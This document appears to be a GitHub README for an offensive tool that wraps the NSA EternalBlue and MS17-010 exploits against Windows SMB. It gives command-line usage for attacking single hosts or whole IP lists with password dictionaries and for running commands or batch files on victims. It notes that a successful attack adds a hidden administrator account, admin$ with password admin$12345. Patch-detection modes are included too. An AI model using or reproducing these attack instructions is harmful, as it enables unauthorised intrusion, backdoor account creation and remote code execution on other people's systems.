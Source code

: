 # ms17010-nsa-EternalBlue
integration ms17010 and nsa-EternalBlue

Mainly integrated with nsa's Eternal Blue and ms17010 series poc. Eternal blue poc has windows 7/2008 and windows 8/2012 x64 ms17010 is win all, Windows Vista can successfully obtain system permissions anonymously, vista above requires named pipe access permissions, generally requires domain user permissions.

Usage: "usage:MyExploiter.py [options] target"

Options:

  --version             show program's version number and exit
  
  -h, --help            show this help message and exit
  
  -m MODE, --mode=MODE  attack mode 0:ms17010 attack one; 1: ms17010 attack by
  
                        file; 2:blue attack one;3:blue attack Mul;4:check
						
                        one;5:check Mul)
						
  -p PORT, --port=PORT  SMB SERVICE PORT
  
  -u USER, --user=USER  SMB USER
  
  -U USERS, --users=USERS user file,SMB USERS
						
  --pwd=password        SMB USER PASSWORD
  
  --pwds=passwords, --pwds=passwords  pwd file,EACH SMB USER PASSWORDS
						
  -t THREADS, --threads=THREADS  thread num
						
  -c COMMOND, --cmd=COMMOND  execute commond on target
						
  -b BATCH, --batch=BATCH    batch file,execute batch file on target
  
Eg: Mode 0: The ms17010 attack is automatically executed. After the attack is successful, the target machine increases the administrator account admin$/admin$12345.
  
ms17010EXP 192.168.1.10 || ms17010EXP -U user.txt --pwds=pwd.txt -t (number of threads) 2 192.168.1.10
  
Mode 1: Execute the ms17010 attack in batches. After the attack is successful, the target machine increases the administrator account admin$/admin$12345.
  
ms17010EXP -m 1 ip.txt || ms17010EXP -m 1 -U user.txt --pwds=pwd.txt -t(threads) 2 ip.txt
  
Mode 2: Execute the Eternal Blue attack, shellcode is shellcode.bin, successful target or blue screen or add user admin$/admin$12345
  
ms17010EXP -m 2 192.168.1.10
  
Mode 3, batch eternal blue attack, ms17010EXP -m 3 ip.txt
  
Mode 4, detecting whether the target machine is patched and the access status of the named pipe ms17010EXP -m 4 192.168.1.10
  
Mode 5, batch detection ms17010EXP -m 5 -t 2 --users=user.txt --pwds=pwd.txt ip.txt

Note: The last line of the username dictionary password dictionary is blank, that is, each line must have a newline.
  
						
Based on: https://github.com/worawit/MS17-010

## Credit to zzwlpx (~_^)


